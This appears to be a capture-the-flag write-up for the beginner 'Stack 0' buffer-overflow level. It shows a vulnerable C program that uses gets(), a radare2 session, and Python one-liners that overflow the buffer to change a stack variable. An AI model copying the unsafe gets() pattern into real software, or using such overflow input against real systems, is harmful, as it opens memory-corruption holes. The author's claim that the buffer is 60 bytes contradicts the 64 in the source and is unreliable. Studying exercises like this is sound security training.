

# Stack 0

## About

This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.


### Source code

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}

```

## Solution 

open the binary in radare2 and `seek` to the `main` function

``` bash
[root:~]# r2 -A ./00
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[ ] [*] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan))
[0x000005c0]> s main
[0x000006f0]>
```
looking at this in the pretty visual mode you see the following 



there looks to be a check at `call sym.imp.gets ;[a]; char*gets(char *s);` that calls the `char`, and from the source we know the buffer is set to `60`

to modify the variable i assume an overflow of the definde buffer needs to happen

``` bash
[root:~]# python -c 'print "A"*60' | ./00
Try again?
```

so as expected with the buffer size of 60

``` bash
[root:~]# python -c 'print "A"*65' | ./00
Try again?
[root:~]# python -c 'print "A"*70' | ./00
Try again?
[root:~]# python -c 'print "A"*80' | ./00
you have changed the 'modified' variable
```

trying it a few times and `80` is our sucessful attempt
